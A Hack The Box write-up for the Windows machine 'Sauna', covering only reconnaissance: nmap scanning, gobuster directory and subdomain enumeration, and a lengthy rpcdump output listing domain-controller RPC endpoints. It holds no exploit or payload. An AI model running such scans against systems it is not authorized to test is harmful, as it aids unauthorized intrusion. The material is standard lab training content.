


# Hackthebox - Sauna - Windows

  

- [Machine on Hackthebox](https://app.hackthebox.com/machines/229)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.175
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-19 16:04 EDT
Nmap scan report for 10.10.10.175
Host is up (0.026s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-20 03:06:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2022-10-20T03:07:02
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.81 seconds
```

## HTTP

### Port 80

- First thing is having a look at port 80. We find this


#### Gobuster port 80

```bash
└─$ gobuster dir -u http://10.10.10.175/ -w /media/sf_kali-shared/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.175/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /media/sf_kali-shared/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/19 16:15:51 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://10.10.10.175/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.175/Images/]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.175/css/]   
/fonts                (Status: 301) [Size: 149] [--> http://10.10.10.175/fonts/] 
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.10.175/IMAGES/]
/Fonts                (Status: 301) [Size: 149] [--> http://10.10.10.175/Fonts/] 
/CSS                  (Status: 301) [Size: 147] [--> http://10.10.10.175/CSS/]   
[STRIPPED]
```

- Looking a little at the website we get a username  

  

- We also have a page with the team so these are other usernames to keep aside for later  


- Let's try to enumerate subdomain
- First we need to modify `/etc/hosts` and add this in the end `10.10.10.175    egotistical-bank.htb`
- `gobuster dns -d egotistical-bank.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`  
  => This does not give us anything

### Port 5985

#### Gobuster port 5985

- `gobuster dir -u http://10.10.10.175:5985/ -w /media/sf_kali-shared/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`

## MSRPC enumeration

- `python3 /opt/impacket/examples/rpcdump.py 10.10.10.175`

```bash
Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.10.175
Protocol: [MS-RSP]: Remote Shutdown Protocol 
Provider: wininit.exe 
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49664]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\SAUNA[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc080E20]

Protocol: N/A 
Provider: winlogon.exe 
UUID    : 76F226C3-EC14-4325-8A99-6A46348418AF v1.0 
Bindings: 
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\SAUNA[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc080E20]
          ncalrpc:[WMsgKRpc081E21]

Protocol: N/A 
Provider: N/A 
UUID    : D09BDEB5-6171-4A34-BFE2-06FA82652568 v1.0 
Bindings: 
          ncalrpc:[csebpub]
          ncalrpc:[LRPC-45c0ba6cdd16e4fdad]
          ncalrpc:[LRPC-5856966c328ab18b8f]
          ncalrpc:[LRPC-699ba8a68cda4b1054]
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-5856966c328ab18b8f]
          ncalrpc:[LRPC-699ba8a68cda4b1054]
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-699ba8a68cda4b1054]
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-43e6083533734a720e]
          ncalrpc:[LRPC-5a885e659258fb8e66]

Protocol: N/A 
Provider: N/A 
UUID    : 697DCDA9-3BA9-4EB2-9247-E11F1901B0D2 v1.0 
Bindings: 
          ncalrpc:[LRPC-45c0ba6cdd16e4fdad]
          ncalrpc:[LRPC-5856966c328ab18b8f]
          ncalrpc:[LRPC-699ba8a68cda4b1054]
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 9B008953-F195-4BF9-BDE0-4471971E58ED v1.0 
Bindings: 
          ncalrpc:[LRPC-5856966c328ab18b8f]
          ncalrpc:[LRPC-699ba8a68cda4b1054]
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : DD59071B-3215-4C59-8481-972EDADC0F6A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0D47017B-B33B-46AD-9E18-FE96456C5078 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 95406F0B-B239-4318-91BB-CEA3A46FF0DC v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4ED8ABCC-F1E2-438B-981F-BB0E8ABC010C v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0FF1F646-13BB-400A-AB50-9A78F2B7A85A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 6982A06E-5FE2-46B1-B39C-A2C545BFA069 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 082A3471-31B6-422A-B931-A54401960C62 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : FAE436B0-B864-4A87-9EDA-298547CD82F2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : E53D94CA-7464-4839-B044-09A2FB8B3AE5 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 178D84BE-9291-4994-82C6-3F909ACA5A03 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4DACE966-A243-4450-AE3F-9B7BCB5315B8 v2.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 1832BCF6-CAB8-41D4-85D2-C9410764F75A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : C521FACF-09A9-42C5-B155-72388595CBF0 v0.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2C7FD9CE-E706-4B40-B412-953107EF9BB0 v0.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 88ABCBC3-34EA-76AE-8215-767520655A23 v0.0 
Bindings: 
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 76C217BC-C8B4-4201-A745-373AD9032B1A v1.0 
Bindings: 
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 55E6B932-1979-45D6-90C5-7F6270724112 v1.0 
Bindings: 
          ncalrpc:[LRPC-825daa4f6bac7709f2]
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 857FB1BE-084F-4FB5-B59C-4B2C4BE5F0CF v1.0 
Bindings: 
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : B8CADBAF-E84B-46B9-84F2-6F71C03F9E55 v1.0 
Bindings: 
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 20C40295-8DBA-48E6-AEBF-3E78EF3BB144 v1.0 
Bindings: 
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2513BCBE-6CD4-4348-855E-7EFB3C336DD3 v1.0 
Bindings: 
          ncalrpc:[LRPC-b4a1530001774e49c3]
          ncalrpc:[OLE81DA1B2A26A155F6311828501A23]
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0D3E2735-CEA0-4ECC-A9E2-41A2D81AED4E v1.0 
Bindings: 
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : C605F9FB-F0A3-4E2A-A073-73560F8D9E3E v1.0 
Bindings: 
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 1B37CA91-76B1-4F5E-A3C7-2ABFC61F2BB0 v1.0 
Bindings: 
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 8BFC3BE1-6DEF-4E2D-AF74-7C47CD0ADE4A v1.0 
Bindings: 
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2D98A740-581D-41B9-AA0D-A88B9D5CE938 v1.0 
Bindings: 
          ncalrpc:[LRPC-c9a0ab0eee4f140e2d]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0361AE94-0316-4C6C-8AD8-C594375800E2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 5824833B-3C1A-4AD2-BDFD-C31D19E23ED2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : BDAA0970-413B-4A3E-9E5D-F6DC9D7E0760 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 3B338D89-6CFA-44B8-847E-531531BC9992 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 8782D3B9-EBBD-4644-A3D8-E8725381919B v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 085B0334-E454-4D91-9B8C-4134F9E793F3 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4BEC6BB8-B5C2-4B6F-B2C1-5DA5CF92D0D9 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: sysntfy.dll 
UUID    : C9AC6DB5-82B7-4E55-AE8A-E464ED7B4277 v1.0 Impl friendly name
Bindings: 
          ncalrpc:[LRPC-43eab0d044c9f922b8]
          ncalrpc:[LRPC-c97ac6c4d02dc45cd4]
          ncalrpc:[IUserProfile2]
          ncalrpc:[LRPC-d8a40d680d3aa121ef]
          ncalrpc:[senssvc]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: N/A 
Provider: nsisvc.dll 
UUID    : 7EA70BCF-48AF-4F6A-8968-6A440754D5FA v1.0 NSI server endpoint
Bindings: 
          ncalrpc:[LRPC-cefd3094369d8c305f]

Protocol: N/A 
Provider: N/A 
UUID    : E40F7B57-7A25-4CD3-A135-7F7D3DF9D16B v1.0 Network Connection Broker server endpoint
Bindings: 
          ncalrpc:[LRPC-95a93978a4cbc98203]
          ncalrpc:[OLEBB7D123FBD52B87F50658FA853BE]
          ncalrpc:[LRPC-72495eb9acb6c05685]
          ncalrpc:[LRPC-43e6083533734a720e]

Protocol: N/A 
Provider: N/A 
UUID    : 880FD55E-43B9-11E0-B1A8-CF4EDFD72085 v1.0 KAPI Service endpoint
Bindings: 
          ncalrpc:[LRPC-95a93978a4cbc98203]
          ncalrpc:[OLEBB7D123FBD52B87F50658FA853BE]
          ncalrpc:[LRPC-72495eb9acb6c05685]
          ncalrpc:[LRPC-43e6083533734a720e]

Protocol: N/A 
Provider: N/A 
UUID    : 5222821F-D5E2-4885-84F1-5F6185A0EC41 v1.0 Network Connection Broker server endpoint for NCB Reset module
Bindings: 
          ncalrpc:[LRPC-72495eb9acb6c05685]
          ncalrpc:[LRPC-43e6083533734a720e]

Protocol: N/A 
Provider: N/A 
UUID    : A500D4C6-0DD1-4543-BC0C-D5F93486EAF8 v1.0 
Bindings: 
          ncalrpc:[LRPC-3477d227168b9a955a]
          ncalrpc:[LRPC-5a885e659258fb8e66]

Protocol: N/A 
Provider: dhcpcsvc6.dll 
UUID    : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D6 v1.0 DHCPv6 Client LRPC Endpoint
Bindings: 
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[dhcpcsvc]

Protocol: N/A 
Provider: dhcpcsvc.dll 
UUID    : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D5 v1.0 DHCP Client LRPC Endpoint
Bindings: 
          ncalrpc:[dhcpcsvc]

Protocol: [MS-EVEN6]: EventLog Remoting Protocol 
Provider: wevtsvc.dll 
UUID    : F6BEAFF7-1E19-4FBB-9F8F-B89E2018337C v1.0 Event log TCPIP
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49665]
          ncacn_np:\\SAUNA[\pipe\eventlog]
          ncalrpc:[eventlog]

Protocol: N/A 
Provider: gpsvc.dll 
UUID    : 2EB08E3E-639F-4FBA-97B1-14F878961076 v1.0 Group Policy RPC Interface
Bindings: 
          ncalrpc:[LRPC-e285d72b5d0bb976f8]

Protocol: N/A 
Provider: N/A 
UUID    : 3A9EF155-691D-4449-8D05-09AD57031823 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49666]
          ncalrpc:[LRPC-82b613a549477dcc80]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\SAUNA[\PIPE\atsvc]
          ncalrpc:[LRPC-af25f65cb92f765d39]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: schedsvc.dll 
UUID    : 86D35949-83C9-4044-B424-DB363231FD0C v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49666]
          ncalrpc:[LRPC-82b613a549477dcc80]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\SAUNA[\PIPE\atsvc]
          ncalrpc:[LRPC-af25f65cb92f765d39]

Protocol: N/A 
Provider: N/A 
UUID    : 33D84484-3626-47EE-8C6F-E7E98B113BE1 v2.0 
Bindings: 
          ncalrpc:[LRPC-82b613a549477dcc80]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\SAUNA[\PIPE\atsvc]
          ncalrpc:[LRPC-af25f65cb92f765d39]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: taskcomp.dll 
UUID    : 378E52B0-C0A9-11CF-822D-00AA0051E40F v1.0 
Bindings: 
          ncacn_np:\\SAUNA[\PIPE\atsvc]
          ncalrpc:[LRPC-af25f65cb92f765d39]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: taskcomp.dll 
UUID    : 1FF70682-0A51-30E8-076D-740BE8CEE98B v1.0 
Bindings: 
          ncacn_np:\\SAUNA[\PIPE\atsvc]
          ncalrpc:[LRPC-af25f65cb92f765d39]

Protocol: N/A 
Provider: schedsvc.dll 
UUID    : 0A74EF1C-41A4-4E06-83AE-DC74FB1CDD53 v1.0 
Bindings: 
          ncalrpc:[LRPC-af25f65cb92f765d39]

Protocol: N/A 
Provider: MPSSVC.dll 
UUID    : 2FB92682-6599-42DC-AE13-BD2CA89BD11C v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-8be3152fcf9a40a910]
          ncalrpc:[LRPC-32c983c7e2cd5545a4]
          ncalrpc:[LRPC-6dd3eeedf5b95fe459]
          ncalrpc:[LRPC-5c6e27fbff3afecefc]

Protocol: N/A 
Provider: N/A 
UUID    : F47433C3-3E9D-4157-AAD4-83AA1F5C2D4C v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-32c983c7e2cd5545a4]
          ncalrpc:[LRPC-6dd3eeedf5b95fe459]
          ncalrpc:[LRPC-5c6e27fbff3afecefc]

Protocol: N/A 
Provider: MPSSVC.dll 
UUID    : 7F9D11BF-7FB9-436B-A812-B2D50C5D4C03 v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-6dd3eeedf5b95fe459]
          ncalrpc:[LRPC-5c6e27fbff3afecefc]

Protocol: N/A 
Provider: BFE.DLL 
UUID    : DD490425-5325-4565-B774-7E27D6C09C24 v1.0 Base Firewall Engine API
Bindings: 
          ncalrpc:[LRPC-5c6e27fbff3afecefc]

Protocol: [MS-NRPC]: Netlogon Remote Protocol 
Provider: netlogon.dll 
UUID    : 12345678-1234-ABCD-EF00-01234567CFFB v1.0 
Bindings: 
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.10.175[49674]
          ncacn_np:\\SAUNA[\pipe\f39b6a9e288bf4b0]
          ncacn_http:10.10.10.175[49673]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: [MS-RAA]: Remote Authorization API Protocol 
Provider: N/A 
UUID    : 0B1C2170-5732-4E0E-8CD3-D9B16F3B84D7 v0.0 RemoteAccessCheck
Bindings: 
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.10.175[49674]
          ncacn_np:\\SAUNA[\pipe\f39b6a9e288bf4b0]
          ncacn_http:10.10.10.175[49673]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.10.175[49674]
          ncacn_np:\\SAUNA[\pipe\f39b6a9e288bf4b0]
          ncacn_http:10.10.10.175[49673]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: [MS-SAMR]: Security Account Manager (SAM) Remote Protocol 
Provider: samsrv.dll 
UUID    : 12345778-1234-ABCD-EF00-0123456789AC v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49674]
          ncacn_np:\\SAUNA[\pipe\f39b6a9e288bf4b0]
          ncacn_http:10.10.10.175[49673]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: [MS-LSAT]: Local Security Authority (Translation Methods) Remote 
Provider: lsasrv.dll 
UUID    : 12345778-1234-ABCD-EF00-0123456789AB v0.0 
Bindings: 
          ncacn_np:\\SAUNA[\pipe\f39b6a9e288bf4b0]
          ncacn_http:10.10.10.175[49673]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: [MS-DRSR]: Directory Replication Service (DRS) Remote Protocol 
Provider: ntdsai.dll 
UUID    : E3514235-4B06-11D1-AB04-00C04FC2DCD2 v4.0 MS NT Directory DRS Interface
Bindings: 
          ncacn_np:\\SAUNA[\pipe\f39b6a9e288bf4b0]
          ncacn_http:10.10.10.175[49673]
          ncalrpc:[NTDS_LPC]
          ncalrpc:[OLE2C7392E978C63F425F1377AF8C3F]
          ncacn_ip_tcp:10.10.10.175[49667]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: N/A 
Provider: N/A 
UUID    : 51A227AE-825B-41F2-B4A9-1AC9557A1018 v1.0 Ngc Pop Key Service
Bindings: 
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: N/A 
Provider: N/A 
UUID    : 8FB74744-B2FF-4C00-BE0D-9EF9A191FE1B v1.0 Ngc Pop Key Service
Bindings: 
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: N/A 
Provider: N/A 
UUID    : B25A52BF-E5DD-4F4A-AEA6-8CA7272A0E86 v2.0 KeyIso
Bindings: 
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\SAUNA[\pipe\lsass]

Protocol: N/A 
Provider: N/A 
UUID    : 3473DD4D-2E88-4006-9CBA-22570909DD10 v5.1 WinHttp Auto-Proxy Service
Bindings: 
          ncalrpc:[3cfb89c4-ba36-471e-b326-ceef3e3ad777]
          ncalrpc:[LRPC-6fc651d5a5b3bc156c]

Protocol: N/A 
Provider: N/A 
UUID    : C2D1B5DD-FA81-4460-9DD6-E7658B85454B v1.0 
Bindings: 
          ncalrpc:[LRPC-7e523df60e49da0c28]
          ncalrpc:[OLE03B5FB516468201F73D219F7F64E]

Protocol: N/A 
Provider: N/A 
UUID    : F44E62AF-DAB1-44C2-8013-049A9DE417D6 v1.0 
Bindings: 
          ncalrpc:[LRPC-7e523df60e49da0c28]
          ncalrpc:[OLE03B5FB516468201F73D219F7F64E]

Protocol: N/A 
Provider: N/A 
UUID    : 7AEB6705-3AE6-471A-882D-F39C109EDC12 v1.0 
Bindings: 
          ncalrpc:[LRPC-7e523df60e49da0c28]
          ncalrpc:[OLE03B5FB516468201F73D219F7F64E]

